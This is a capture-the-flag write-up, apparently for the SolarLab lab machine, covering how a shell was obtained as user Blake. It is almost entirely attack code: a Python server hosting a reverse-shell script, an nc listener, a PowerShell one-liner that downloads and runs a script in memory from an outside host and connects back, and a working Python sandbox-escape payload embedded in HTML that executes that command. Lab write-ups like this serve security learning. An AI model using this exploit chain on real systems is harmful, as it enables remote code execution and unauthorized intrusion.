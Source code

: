 ![alt text](../images/solarlab/burp.png)

## Blake shell
after confirming the connection it's time to get a shell!
this part involves these steps:
- setup python server hosting the shell:
```bash
python3 http.server 80   #revshell.ps1 is in the same directory
```

- set up a listening session on a separate tab:
```bash
stty raw -echo; (stty size; cat) | nc -lvnp PORT
```

- This Piece of code is used to download and execute powershell script in memory, were going to add it to the Exploit Code
```powershell
powershell IEX(IWR http://10.10.16.14/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.16.63 9001
```
#### Final Exploit:
```html
<para><font color="[[[getattr(pow, Word('__globals__'))
['os'].system('powershell IEX(IWR http://10.10.16.14/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.16.63 9001') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1,
 'startswith': lambda self,
  x: 1 == 0,
   '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated',
    self.mutated - 1) },
     '__hash__': lambda self: hash(str(self)), },
      ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
```